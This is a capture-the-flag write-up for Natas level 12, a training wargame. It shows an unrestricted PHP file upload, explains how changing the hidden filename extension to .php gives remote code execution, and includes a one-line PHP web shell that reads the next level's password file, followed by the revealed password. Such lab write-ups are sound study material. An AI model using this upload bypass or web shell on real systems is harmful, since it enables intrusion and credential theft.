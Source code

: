 # Writeup level 12
We can upload a JPEG (up to 1KB)

** Source Code **

```php
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?> 
```

Looking at the source code we have no restrictions to what we can upload. Like there is no check if it is an actual jpg. Also looking at the HTML Source we have something very intresting.

```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
We can see in the code above that the **target_path** variable takes the value from the POST Parameter called **filename**. It just appends the .jpg on the random generated String but before it gets send. So what we can do is, we can upload a php file and change that .jpg to .php in the HTML. This leads to a successfully performed **Remote Code Execution** (RCE).

## Remote Code Execution (RCE)
It basically is what the name already says. You can execute your own code on the remote machine.

## Back to the challenge
I am just going to create a simple php file that cat outs the content of the natas13 password file.  
**PHP File**

```php
<?php

$result = exec("cat /etc/natas_webpass/natas13");
echo $result;

?>
```

- Select the php file to upload
- Change the .jpg value in the filename attribute
- Upload the file
- Click on the new link

The password is:  
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY






